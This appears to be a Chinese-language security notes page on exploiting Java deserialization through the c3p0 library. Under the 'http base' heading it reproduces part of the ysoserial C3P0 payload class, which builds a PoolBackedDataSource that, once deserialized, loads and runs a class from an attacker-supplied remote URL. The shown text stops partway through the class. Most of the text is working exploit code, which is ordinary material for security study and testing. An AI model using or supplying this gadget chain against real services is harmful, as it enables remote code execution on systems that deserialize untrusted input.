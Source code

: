 # c3p0的三个gadget

## http base

适用于原生反序列化，加载远程静态代码和无参构造方法触发，利用就是yso的链子，搬过来看一下

```java
package ysoserial.payloads;

import java.io.PrintWriter;
import java.sql.SQLException;
import java.sql.SQLFeatureNotSupportedException;
import java.util.logging.Logger;

import javax.naming.NamingException;
import javax.naming.Reference;
import javax.naming.Referenceable;
import javax.sql.ConnectionPoolDataSource;
import javax.sql.PooledConnection;

import com.mchange.v2.c3p0.PoolBackedDataSource;
import com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase;

import ysoserial.payloads.annotation.Authors;
import ysoserial.payloads.annotation.Dependencies;
import ysoserial.payloads.annotation.PayloadTest;
import ysoserial.payloads.util.PayloadRunner;
import ysoserial.payloads.util.Reflections;


/**
 *
 *
 * com.sun.jndi.rmi.registry.RegistryContext->lookup
 * com.mchange.v2.naming.ReferenceIndirector$ReferenceSerialized->getObject
 * com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase->readObject
 *
 * Arguments:
 * - base_url:classname
 *
 * Yields:
 * - Instantiation of remotely loaded class
 *
 * @author mbechler
 *
 */
@PayloadTest ( harness="ysoserial.test.payloads.RemoteClassLoadingTest" )
@Dependencies( { "com.mchange:c3p0:0.9.5.2" ,"com.mchange:mchange-commons-java:0.2.11"} )
@Authors({ Authors.MBECHLER })
public class C3P0 implements ObjectPayload<Object> {
    public Object getObject ( String command ) throws Exception {
        int sep = command.lastIndexOf(':');
        if ( sep < 0 ) {
            throw new IllegalArgumentException("Command format is: <base_url>:<classname>");
        }

        String url = command.substring(0, sep);
        String className = command.substring(sep + 1);

        PoolBackedDataSource b = Reflections.createWithoutConstructor(PoolBackedDataSource.class);
        Reflections.getField(PoolBackedDataSourceBase.class, "connectionPoolDataSource").set(b, new PoolSource(className, url));
```